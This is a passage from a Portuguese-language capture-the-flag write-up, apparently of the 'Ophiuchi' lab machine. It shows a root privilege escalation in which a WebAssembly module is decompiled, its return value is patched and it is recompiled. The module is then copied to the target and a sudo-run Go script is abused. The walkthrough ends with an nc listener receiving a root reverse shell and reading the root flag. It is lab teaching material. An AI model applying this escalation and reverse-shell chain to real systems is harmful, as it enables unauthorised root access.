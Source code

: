 - Baixado versão compilada do `wabt` para o diretório onde estávamos trabalhando

  ```bash
  wget https://github.com/WebAssembly/wabt/releases/download/1.0.23/wabt-1.0.23-ubuntu.tar.gz
  tar -xzvf wabt-1.0.23-ubuntu.tar.gz
  ```

- Convertido `main.wasm` para `main.wat`, retornando o seguinte conteúdo

  ```bash
  $ wabt-1.0.23/bin/wasm2wat main.wasm -o main.wat
  $ cat main.wat                                                                                           
  (module
    (type (;0;) (func (result i32)))
    (func $info (type 0) (result i32)
        i32.const 0)
    (table (;0;) 1 1 funcref)
    (memory (;0;) 16)
    (global (;0;) (mut i32) (i32.const 1048576))
    (global (;1;) i32 (i32.const 1048576))
    (global (;2;) i32 (i32.const 1048576))
    (export "memory" (memory 0))
    (export "info" (func $info))
    (export "__data_end" (global 1))
    (export "__heap_base" (global 2)))
  ```

- Uma vez que precisamos retornar o valor `f == 1`, o valor vem da função `info`, onde faremos a alteração do valor `i32.const 0` para `i32.const 1`

- Após alterá-lo, compilei novamente o arquivo para `main.wasm`, conforme comando abaixo e copiei para a máquina vítima no diretório que estamos trabalhando

  ```bash
  wabt-1.0.23/bin/wat2wasm main.wat -o main.wasm
  scp main.wasm admin@10.10.10.227:/dev/shm/zurc
  ```
  
- Em uma segunda tentativa tive sucesso na execução do código :smiley:

  ```bash
  admin@ophiuchi:/dev/shm/zurc$ sudo /usr/bin/go run /opt/wasm-functions/index.go
  Ready to deploy
  uid=0(root) gid=0(root) groups=0(root)
  ```
  
- Uma vez confirmado o funcionamento, alterado o conteúdo do arquivo `deploy.sh` conforme previamente mencionado para obter o shell reverso, onde pude assim obter a flag de root.

  ```bash
  $ nc -lnvp 4443
  listening on [any] 4443 ...
  connect to [10.10.10.10] from (UNKNOWN) [10.10.10.227] 50068
  # hostname && id
  ophiuchi
  uid=0(root) gid=0(root) groups=0(root)
  # cat /root/root.txt
  <redacted>
  ```

Espero que tenham gostado!

Vejo vocês no próximo post :smile:
